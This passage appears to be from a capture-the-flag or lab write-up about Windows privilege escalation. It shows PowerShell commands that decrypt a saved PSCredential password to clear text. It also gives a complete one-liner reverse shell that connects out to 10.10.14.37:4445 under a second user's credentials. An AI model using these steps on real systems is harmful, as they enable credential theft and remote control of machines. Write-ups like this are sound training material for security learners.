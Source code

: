 - This user we're having (`sfitz`) doesn't seem to have any permissions. After some enumeration, I found an interesting files:

![img_6.png](img/img_6.png)

- This is called `PSCredential`, which is a placeholder for a set of credentials – it basically contains a username and a password. The PSCredential object 
offers a safe and convenient way to handle a username and password.

- By using `PSCredential`, we can run Powershell commands under specific credentials, meaning running it with that user's permissions. We can obtain the clear-text
password by simply using:

```
PS C:\> $HexPass = Get-Content "password.txt"
PS C:\> $Credential = New-Object -TypeName PSCredential -ArgumentList "adm.ms@easy365manager.com", ($HexPass | ConvertTo-SecureString)
PS C:\> $BSTR = [System.Runtime.InteropServices.Marshal]::SecureStringToBSTR($Credential.Password)
PS C:\> [System.Runtime.InteropServices.Marshal]::PtrToStringAuto($BSTR)
```

- Result:

![img_7.png](img/img_7.png)


- Now we can execute arbitrary commands using these credentials. Below are the commands to create a reverse shell under `alaading`:

```
PS C:\windows\system32\inetsrv> $username = 'alaading'
PS C:\windows\system32\inetsrv> $password = 'f8gQ8fynP44ek1m3'
PS C:\windows\system32\inetsrv> $securePassword = ConvertTo-SecureString $password -AsPlainText -Force
PS C:\windows\system32\inetsrv> $credential = New-Object System.Management.Automation.PSCredential ($username, $securePassword)
PS C:\windows\system32\inetsrv> Invoke-Command -ComputerName localhost -Credential $credential -ScriptBlock {$client = 
New-Object System.Net.Sockets.TCPClient('10.10.14.37',4445);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).
GetString($bytes,0, $i);$sendback = (iex ". { $data } 2>&1" | Out-String ); $sendback2 = $sendback + 'PS ' + (pwd).Path + '> '
;$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};
$client.Close()}
```
